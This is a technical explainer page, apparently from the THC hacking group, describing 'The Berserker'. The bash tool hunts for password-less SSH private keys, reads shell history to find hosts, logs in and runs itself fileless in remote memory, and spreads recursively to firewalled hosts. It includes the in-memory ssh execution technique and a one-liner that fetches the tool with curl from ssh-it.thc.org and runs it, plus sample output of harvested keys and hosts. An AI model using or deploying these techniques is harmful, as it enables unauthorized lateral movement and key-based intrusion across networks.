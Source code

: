 ```yaml
---
layout: default
title: Berserker - how it works
---
```

{:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef}

Random notes on how [The Berserker](../) works.

### Executive Summary
[The Berserker](../) is a bash script. At this point the reader either has a heart attack or multiple orgasms. There is no in-between.

### General
The Berserker looks for any passwordless private ssh-key in ```~/.ssh``` and then gathers information from the User's shell history (```~/.bash_history```, ```.zsh_history``` and ```~/.history```) about any host the User connected to in the past. The Berserker then attempts to log into each host and injects itself into the remote's bash memory. It executes itself on the remote host and continues to do its deeds.

It keeps doing so until all ssh keys have been used and all hosts have been visited.

**Example**: User ```alice``` starts The Berserker on host ```Earth``` (the *origin*). The Berserker finds Alice's ssh-key and detects (from Alice's shell history) that ```alice``` frequently connects to ```Mars``` (as alice) and ```Jupiter``` (as root). The Berserker first connects to ```Mars``` and executes itself on ```Mars```. Let's assume The Berserker finds no further ssh-keys on ```Mars``` and so it will not spread beyond ```Mars```. Next it connects from ```Earth``` to ```Jupiter```. It's a root login to ```Jupiter``` and The Berserker finds many ssh-keys from various users. One such user is ```bob``` who frequently connects to ```Uranus``` and from there to ```Pluto```. Ultimately The Berserker will get to ```Pluto``` via a long ssh chain from ```Earth```->```Jupiter```->```Uranus```->```Pluto```.

At this point the educated reader will realise that The Berserker is *deep penetrating* ```Uranus```, e.g. ```Uranus``` gets owned even if firewalled or not being accessible from the Internet (but accessible from ```Jupiter```).

Berserker implements a text-based communication protocol via the stdin/stdout ssh-chain to send its findings back to ```Earth``` (the *origin* where The Berserker started).

### Bash In-Memory execution
Bash has this tremendous ability to load a script from a memory location and without the script needing to be stored on the target host.

```shell
cat >e.sh<<__EOF__
#! /bin/bash
echo "Hello '\$USER'"
__EOF__
S="$(cat e.sh | sed 's/\x27/\x27"\x27"\x27/g')"
ssh user@host.com "export SCRIPT='$S'; bash -c \"\$SCRIPT\""
```

1. Create a bash script named ```e.sh```.

1. Slurp the content into the variable ```$S``` after converting all ```'``` to ```'"'"'```. That's a bit freaky but hold your beer.

1. I use the hex notation (```\x27```) of ```'``` here or otherwise it would look rather complicated (```sed``` needs the ```'``` escaped so it is double-escaping time): ```S="$(cat e.sh | sed 's/'"'"'/'"'"'"'"'"'"'"'"'/g')"```. Most readers would commit suicide at this point. This is just to escape ```'``` correctly so that it can be passed to ```ssh``` as a command via a variable (```SCRIPT='$S'```) without interfering with the ```'``` around the ```$S```.

1. The long string ```export SCRIPT='$S'; bash -c \"\$SCRIPT\"``` is passed as a command to ```ssh``` to execute on the remote host. Note that the ```$``` in ```\"\$SCRIPT\"``` is escaped to prevent the local shell from substituting the variable. We like the remote bash (not the local one) to substitute ```$SCRIPT```. This is only needed because The Berserker needs to access the source of its own script (now stored in ```$SCRIPT``` to spread to further hosts). Otherwise ```bash -c '$S'``` would work.

No data is written to the target's host hard drive. All is kept in memory.

SSH has a 128k limit for passing arguments. *That ought to be enough for everyone*. Otherwise have a look how this limitation is overcome in [ssh-it's hook.sh](https://github.com/hackerschoice/ssh-it/blob/main/src/hook.sh) (piping a script with ```dd``` into a remote bash variable and executing the string from memory is a thing....).

### Bash Command line parsing

There is no efficient way to convert a command line string from ```~/.bash_history``` to an array in bash.

The history file contains the recently *typed* commands rather then the *executed* commands. There is a fine difference. Bash records the input rather then what's passed to exec(2) system call. Let's illustrate the problem:

```shell
ls foo\ bar
```

The bash records ```ls foo\ bar``` rather than what it actually executes (```exec("ls", "foo bar")```; note the missing ```\```). This is a problem if there are history entries containing bash variables or escape sequences like ```$HOME``` or ```\ ``` in the file name:

```shell
ssh -i $HOME/.ssh/id_dsa\ key.dat root@openbsd.org
```

The command actually executed is ```exec("ssh", "-i", "/home/user/.ssh/id_dsa key.dat", "root@openbsd.org")``` and from the string above it's impossible to determine which argument is passed as 1st, 2nd or last parameter to exec(2) - only bash knows.

The program ```xargs``` comes to the rescue to split the command line string into separate ARGV arguments the same way as bash would do. However, xargs executes another program (with the correctly split arguments). So we used ```xargs``` to call ```bash -c``` and output each command line argument in a separate line and then convert this into a bash array:
```shell
line="$(echo "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org" | xargs bash -c 'n=0; while [[ $n -le ${#} ]]; do eval eval echo "\$${n}"; n=$((n+1)); done')"
```

The variable ```line``` now contains
```
ssh
-i
/home/user/.ssh/id_dsa key.dat
root@openbsd.org
```

Note: The double ```eval eval``` is needed. The first one convert the ```${#}``` to the integer number of the arguments passed to the bash by ```xargs``` and the second ```eval``` resolves the ```~/``` to the absolute directory name.

That format can now easily be split into an array like so:
```shell
IFS=$'\n' MyArray=($line)
```

We can add this into a nice bash function and have the bash-array returned by *pointer* (yes, bash can do pointers):

```shell
bash -l
cat >test.sh<<__EOF__
cmdline2array()
{
	local line
	# Double eval: 1st: To turn \$1 to argument string. 2nd to turn ~/.ssh to /home/user/.ssh
	line="\$(echo "\$2" | xargs bash -c 'n=0; while [[ \$n -le \${#} ]]; do eval eval echo "\\\$\${n}"; n=\$((n+1)); done')"
	# echo "LINES=\$line"
	IFS=$'\n' eval "\${1}=(\\\$line)"
	IFS=" "
}
__EOF__

# Now calling this function will store the arguments as array in 'MyArray':
source test.sh
cmdline2array MyArray "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org"
echo "Number of elements in MyArray: ${#MyArray[@]}"
# The output is '4'
echo "Content: ${MyArray[*]}"
# The output is: ssh -i /home/user/.ssh/id_dsa key.dat root@openbsd.org
```
 * Note how the *string* ```MyArray``` is passed as a function parameter (followed by the ssh command). Inside the function we use ```eval``` on that string to 'turn' the string-name (```MyArray```) into a bash variable. And that is how you (efficiently) pass one or more return values from the function back to the caller.

### Bash stderr and $? catching

The Berserker needs to check the error output of ```ssh``` _and_ also needs the exit-code of ```ssh``` _and_ the standard output must pass through. The only way to do this in bash is to play file descriptor bonanza:
```shell
{ err="$( { echo 1>&2 "Hello-STDERR"; exit 123; } 2>&1 1>&3 3>&- )"; } 3>&1 || ret=$?
echo "ret=$ret, err=$err"
```
* The ```echo 1>&2 "Hello-STDERR";``` generates some test output to STDERR.
* The ```exit 123;``` is some test exit code (123).

The output is ```ret=123, err=Hello-STDERR```.

### Transport Protocol via STDIN/STDOUT

All the slaves need to report back their findings to ```Earth``` (the *origin*). A simple protocol is used to pass the information from the farthest ```ssh``` back to the *origin* (via a long chain ssh-stdin-chain). In our example from above ```Pluto``` would pass the message back to ```Uranus```, ```Uranus``` back to ```Jupitor```, ... to ```Mars```, ... to ```Earth```. All protocol messages are then dispatched at the *origin* in ```msg_dispatch()```. The protocol messages are rather simple and you can see them by forcing the *origin* to be a slave with ```BS_DEBUG_IS_SLAVE=1```:

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEBUG_IS_SLAVE=1 $BS"
```

The output will look similar to this:
```
|I|0|76672d|[#1] ~/.ssh/id_rsa
|I|0|76672d|[#2] ~/.ssh/id_rsa-old
|T|0|76672d|admin@192.168.1.1|1/112
|O|0|76672d|
|L|1|437048|76672d|admin|ubnt
|C|0|76672d|~/.ssh/id_rsa
|T|0|76672d|pi@192.168.1.18|3/112
|O|0|76672d|
|L|1|39a307|76672d|pi|raspberrypi
|I|1|39a307|Found 1 hosts to try.
|I|1|39a307|Found 1 key without password.
|I|1|39a307|[#1] ~/.ssh/id_rsa
```

### If you are reading this...

If you made it all the way to here then you are the type of person we like to hang out with. Join us on [Telegram](https://t.me/thcorg).

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  



